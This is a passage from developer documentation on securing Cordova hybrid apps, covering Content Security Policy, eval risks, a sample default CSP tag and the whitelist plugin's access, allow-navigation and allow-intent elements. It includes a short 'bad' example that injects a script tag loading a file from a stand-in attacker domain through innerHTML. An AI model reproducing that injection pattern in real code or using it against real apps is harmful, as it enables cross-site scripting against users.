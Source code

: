 2. Allowing **JavaScript and CSS content from different origins** poses the next largest risk. Disabling inline script reduces the chances of attack, but even with inline script disabled you can still add a script tag with a href to an external source. The same innerHTML mistake can then lead to a similar vulnerability. While this is obviously true for JavaScript, CSS also poses a risk because directives like expression() and url('javascript:...'). You can loosen this restriction by listing only very specific domains that you trust but exercise caution when doing so. Tweaking the previous example slightly we get:

    ```javascript
    // This is also bad
    textInput = "<div id='hack-otuput'></div><script src='http://iliketohackthings.com/mybadscript.js'></script>"
    document.getElementById("output-div").innerHTML = textInput;
    ```

3. **eval()** along with related features like "new Function" also pose a risk but these are reduced if the inline and same origin restrictions are left in place. Further, eval is used by a number of JavaScript frameworks for optimization purposes so while this is the default it can become quite problematic if left in place. If your app and all associated frameworks do not make use of eval, you should disable it. Otherwise avoid using eval in your own code unless you really know exactly what you are doing.

Note that none of these rules apply to images or other static content.

The default CSP policy in Visual Studio and Cordova templates is a solid starting point. It allows eval(), but keeps the inline script and same origin restrictions in place.

```html
<meta http-equiv="Content-Security-Policy"
      content="default-src 'self' data: gap: https://ssl.gstatic.com 'unsafe-eval';
               style-src 'self' 'unsafe-inline';
               media-src *">
```

See the **[Cordova whitelist and Content Security Policy guide](./whitelists.md)** for additional details on configuring a CSP policy to meet your needs.

## Manage your whitelists

When using Cordova 5+, you will need to install a whitelist plugin to enable access to external network resources on Android. iOS and Windows 10 also supports the features in the whitelist plugin but as of 6.0.0 they are provided by the iOS platform itself. Regardless, the new whitelist plugin that is pre-installed in new Cordova projects either created from the CLI or Visual Studio actually introduce three separate elements designed to enable more discrete control that was possible in the past.

The **access** element from previous versions of Cordova returns but only controls where your app can make XHR requests or access other external content from a web page for Android and iOS. It no longer controls whether you can navigate to a different domain (such as hosted content). A new **allow-navigation** element has been added that then enables you to specify where the app can navigate instead. Finally, a new **allow-intent** element has been introduced specifically designed to control Android intents.

The base Visual Studio and [Cordova CLI](https://aka.ms/cordova-cli) template (via the cordova create command) has a config.xml file in it that is designed to allow the app to make external requests anywhere, allows a specific subset of intents, and prevents the WebView in the Cordova app to navigate anywhere other than local content.
